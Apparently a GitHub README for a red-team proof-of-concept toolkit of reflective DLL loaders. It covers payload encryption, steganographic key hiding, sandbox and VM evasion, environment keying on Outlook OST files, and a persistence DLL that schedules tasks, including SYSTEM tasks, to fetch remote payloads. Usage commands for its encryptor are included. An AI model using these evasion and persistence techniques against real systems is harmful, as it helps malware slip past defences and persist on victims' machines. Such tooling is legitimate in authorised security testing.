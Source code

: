 ## Moodring
PoC reflective DLL loader libraries with encryption, steg and env checks. Decryption key is bruteforced at runtime after env/vm checks are performed. 

### Cryptorchid - Encrypt and Hide 
Command line Encryptor/Debug tool, can test if the hash can be retrieved and payload decrypted successfully prior to putting it in the pipeline

```powershell
# Skip DNS check, use steganography, and encrypt the dll using AAAA and steg the hash into logo.png, to create logo_copy.png with the hash embeded in least signifcant bit
 .\Cryptorchid.exe -nodns -steg AAAA .\calc.dll .\Logo.png

# Check DNS match for google and check for Sandbox VMs, looks for encyrpted 'mod.txt' and png in the current dir, bruteforce to decrypt and load
# This is to test the sideloading dll, change these values in Moodring source under Program.Main().
 .\Cryptorchid.exe 8.8.8.8 -antivm -stegload .\Logo_copy.png "Calc.Modes.RunCalc.Execute"

 # Pull hash from steg image and decrypt output to view (meant for text/test, will print the contents of dlls)
 .\Cryptorchid.exe -nodns -desteg  .\Logo_copy.png

 # Get hash of UPN for OST file matching
 .\Cryptorchid.exe -nodNS -hash manager@corpomax.com

 # Store hash of UPN in least significant bit
.\Cryptorchid.exe -nodNS -hideupn balls@krebsonsecurity.com .\NOGO.png

# retrieve the hash from the image
.\Cryptorchid.exe -nodNS -getupn .\NOGO_copy.png

# List OST Files found on disk for matching on UPNs
.\Cryptorchid.exe -nodNS -listaccounts 

# Encrypt using UPN Hash so we can decrypt later based on OST files found on system
.\Cryptorchid.exe -noDNs -encryptupn email@domain.com .\logo.png

# Decrypt and invoke method, matching on UPN Hash, pull it from image and check if any OST files found in AppData match
.\Cryptorchid.exe -noDNs -decryptupn .\logo_copy.png Calc.Modes.RunCalc.Execute
```

### Moodring - Decrypts payload from encrypted text file using hash stored in image
Sideloader DLL, handles the payloads decryption and loads target into memory, invoking your desired method. 

TODO: Have this an encrypted value we can pull as well from another image, get rid of the text file.

Added matching on UPN and OST file, pulls hash from image if the expected OST file is found and decrypts payload before loading.

### Taskmasker 
Persister DLL, checks users permissions and creates a task, fetching a remote payload to an AppData directory. If admin, two tasks are created, one to run as SYSTEM. 

### Package.ps1
Can collect built DLLs or build and collect to .\Package

```powershell
.\Package.ps1

# build binaries as well
.\Package.ps1 -build
```

